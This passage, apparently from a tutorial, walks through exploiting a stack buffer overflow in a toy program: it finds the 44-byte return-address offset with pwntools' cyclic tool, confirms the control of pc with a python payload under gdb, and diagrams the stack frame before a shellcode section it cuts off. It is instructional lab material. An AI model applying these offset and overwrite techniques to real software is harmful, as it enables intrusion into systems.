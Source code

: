 If we overwrite the right register with the right (existent) address we can
alter the **computation model**.

To find the right offset to overwrite ``pc`` I could try a few inputs with different
lengths; a trick instead is to use
a [De Bruijn Pattern](https://en.wikipedia.org/wiki/De_Bruijn_sequence): a string with
a precise non repeating pattern.

Exists a python toolbox: [pwntools](https://github.com/Gallopsled/pwntools) that provides some command line tools, between them
there is the ``cyclic`` tool that can help me

```text
$ cyclic 50
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
$ ./simplest_excalation
What's your name? aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
hello, aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
```

now you can see that the faulting address is different

```text
0x6161616c in ?? ()
```

``cyclic`` has a lookup functionality that can perform the offset calculation
for us:

```text
$ cyclic -l 0x6161616c
44
```

At this point we can double check that we have the offset we are looking for

```text
$ python -c "print 'A'*44 + 'BBBB' " | ./simplest_excalation
 ...
$ gdb -p `pidof simplest_excalation`
...
Program received signal SIGSEGV, Segmentation fault.
...
0x42424242 in ?? ()
```

Remember to always double check that the offset you have found allows to put the desired
value where you want.

For a simple program like that I could have found the offset simply looking at the instructions:
it's obvious that ``name`` is located at ``%ebp - 0x28``, since the ``pc`` register is one word
above ``ebp`` this gives an offset of 44 from the start of the buffer.

### Shellcode

Now I have a good estimate of the memory organization around the ``name`` buffer

```text
<<< lower addresses                                                                                       upper addresses >>>

[local variables after buffer][       name       ][local variables before buffer][addr old ebp][addr eip][...
|                             |<---------------- 44 bytes ----------------------------------->||
|                              `-start of buffer                                              ||
'----------------------------------------- greeting()'s frame --------------------------------''- main()'s frame
```
